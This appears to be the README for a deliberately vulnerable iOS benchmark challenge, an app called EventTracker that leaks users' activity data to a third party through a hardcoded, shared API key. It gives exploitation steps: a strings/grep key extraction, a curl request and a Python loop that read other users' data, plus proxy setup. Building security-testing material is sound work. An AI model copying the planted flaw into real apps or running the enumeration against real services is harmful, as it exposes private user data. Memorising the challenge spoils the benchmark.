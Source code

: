 # oxo-ios-ben8 EventTracker - iOS leak information to 3rd party

## Challenge Details

### Description
A modern productivity and habit tracking application for iOS, "EventTracker," allows users to log daily activities across various categories including work, exercise, meals, and social events. The application features a clean SwiftUI interface with cloud synchronization capabilities for personalized insights and recommendations. However, the analytics integration contains a critical privacy vulnerability that exposes sensitive user data to third-party services through API key reuse and excessive data collection. Can your tool identify the hardcoded credentials and detect the unauthorized cross-user data access?

### Vulnerability Type and Category
- **Type:** Privacy Violation - Information Disclosure to Third Party
- **Category:** Sensitive Data Exposure

### Weakness (CWE)
- **CWE-200:** Exposure of Sensitive Information to an Unauthorized Actor
- **CWE-798:** Use of Hard-coded Credentials

### Platform
iOS (Swift/SwiftUI)

### Difficulty
Medium

## Vulnerability Overview
The application's `AnalyticsService` class transmits comprehensive user activity data to a third-party analytics service using a hardcoded API key that can be extracted and reused to access other users' sensitive information. While the app appears to provide legitimate productivity insights, it collects and transmits excessive personal data including activity notes, location information, device fingerprints, and behavioral patterns without proper access controls. This design flaw enables attackers to intercept the API key and gain unauthorized access to any user's private activity data.

**Key Vulnerability Points:**
- Hardcoded API key in application bundle
- Reusable authentication token across all users
- Excessive personal data collection and transmission
- HTTP transmission of sensitive information
- Predictable user identifier generation
- No per-user API key isolation

## Real-World Context
This vulnerability mirrors the actual security issue discovered in the Nord Security iOS application (HackerOne Report #752402), where application event data was exposed through the reuse of API keys. The vulnerability was classified as Critical severity and demonstrates how mobile applications can leak sensitive user information to third-party services when proper access controls are not implemented.

## Exploitation Vector
1. **Network Interception:** An attacker monitors network traffic from the EventTracker application during normal usage.
2. **API Key Extraction:** The hardcoded API key is extracted from HTTP headers or through static analysis of the application binary.
3. **Cross-User Access:** Using the same API key, the attacker queries the third-party service to access other users' activity data.
4. **Data Harvesting:** Sensitive personal information including activity patterns, location data, and device information is collected from multiple users.

## Proof of Concept Exploitation

### 1. Network Traffic Analysis
Monitor HTTP requests during app usage:
```bash
# Expected network traffic pattern
POST http://httpbin.org/post
Authorization: Bearer ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p
Content-Type: application/json

{
  "user_id": "user_12345678",
  "event_type": "activity_logged",
  "data": {
    "activity_title": "Private therapy session",
    "notes": "Discussed personal anxiety issues",
    "location": "Downtown Medical Center",
    "device_info": {
      "name": "John's iPhone",
      "identifier": "A1B2C3D4-E5F6-7890-ABCD-EF1234567890"
    }
  }
}
```

### 2. API Key Extraction
Extract the hardcoded API key from the application:
```bash
# Static analysis approach
strings EventTracker.app/EventTracker | grep "ak_live"
# Result: ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p
```

### 3. Cross-User Data Access
Use the extracted API key to access other users' data:
```bash
# Unauthorized access to other users' activities
curl -H "Authorization: Bearer ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p" \
     "http://analytics-api.eventtracker.com/v1/users/user_abc12345/activities"
```

### 4. Comprehensive Data Harvesting
Enumerate and collect data from multiple users:
```python
import requests

api_key = "ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p"
headers = {"Authorization": f"Bearer {api_key}"}

# Access multiple users' sensitive data
user_ids = ["user_abc12345", "user_def67890", "user_ghi11223"]
for user_id in user_ids:
    response = requests.get(
        f"http://analytics-api.eventtracker.com/v1/users/{user_id}/activities",
        headers=headers
    )
    print(f"Accessed {user_id}: {response.status_code}")
```

## Build Instructions
This is a standard Xcode project built with SwiftUI for iOS 15.0+.

### Prerequisites
- Xcode 14.0 or later
- iOS 15.0+ Simulator or physical device
- macOS 12.0+ for development

### Building and Running
1. Open `EventTracker.xcodeproj` in Xcode
2. Select your target device (Simulator or physical device)
3. Build and run the project (`Cmd + R`)
4. The app will automatically attempt to sync activity data to the analytics service

## Testing the Vulnerability

### Step-by-Step Exploitation
1. **Launch EventTracker** in iOS Simulator or on a device
2. **Add new activities** by tapping the "+" button and creating various activity entries
3. **Monitor network traffic** using a proxy tool (Charles, Burp Suite, or mitmproxy)
4. **Extract the API key** from the Authorization header in HTTP requests
5. **Test cross-user access** by using the same API key with different user IDs
6. **Observe data leakage** in the transmitted JSON payloads

### Expected Results
- ✅ Hardcoded API key is transmitted in HTTP headers
- ✅ Sensitive personal data (notes, location, device info) is exposed
- ✅ Same API key provides access to other users' data
- ✅ No authentication or authorization controls are enforced
- ✅ Device fingerprinting and behavioral tracking is enabled

### Network Monitoring Setup
To capture the vulnerability in action:

1. **Configure HTTP Proxy:**
   ```bash
   # Using mitmproxy
   mitmproxy -p 8080 --set confdir=~/.mitmproxy
   ```

2. **Configure iOS Simulator:**
   - Settings → Wi-Fi → Configure Proxy → Manual
   - Server: 127.0.0.1, Port: 8080

3. **Monitor Traffic:**
   - Launch EventTracker
   - Add activities and observe HTTP requests
   - Extract API key from Authorization headers

### Vulnerability Indicators
Security tools should detect:
- **Static Analysis:** Hardcoded API key in `AnalyticsService.swift`
- **Dynamic Analysis:** HTTP requests with sensitive data transmission
- **Network Analysis:** Reusable authentication tokens
- **Privacy Analysis:** Excessive data collection patterns